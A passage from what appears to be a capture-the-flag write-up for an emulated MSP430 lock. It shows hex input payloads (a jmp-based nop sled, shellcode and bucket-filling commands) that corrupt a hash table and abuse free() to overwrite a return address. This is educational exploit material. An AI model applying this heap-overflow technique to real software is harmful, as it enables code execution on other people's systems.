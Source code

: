 # 043c

# "nop" sled
1153115311531153115311531153115311531153115311531153115311531153

# shellcode
3f40017f1f838f100f12b012ec4c
```

This is very nearly right, except that it overwrites the correct
address not with the desired value of 3f10 but with the value 5448.
This is because free only overwrites the previous chunk if it is free,
meaning our nop sled has to be full of even numbers.  Further, after
the value overwritten, free will overwrite the next two words with
some garbage.  So instead our nop sled can be made of `jmp +10`
instructions, i.e. 043c which is conveniently even.  This sled can be
followed by another sled of around 10 `inc r4` instructions to make
sure we transition correctly from our jmp sled to a nop sled to our
shellcode.

Thus:

```
# fill bucket 0
6e6577201020303b
6e6577203020303b
6e6577204020303b
6e6577205020303b
6e6577206020303b

# fill bucket 1
6e6577200f20303b
6e6577201f20303b
6e6577202f20303b
6e6577203f20303b
6e6577204f20303b

# trigger rehash (add to bucket 5)
6e6577200520303b
6e6577201520303b

# overflow bucket 0 to hide bucket 2
6e6577208853a854b50e20303b
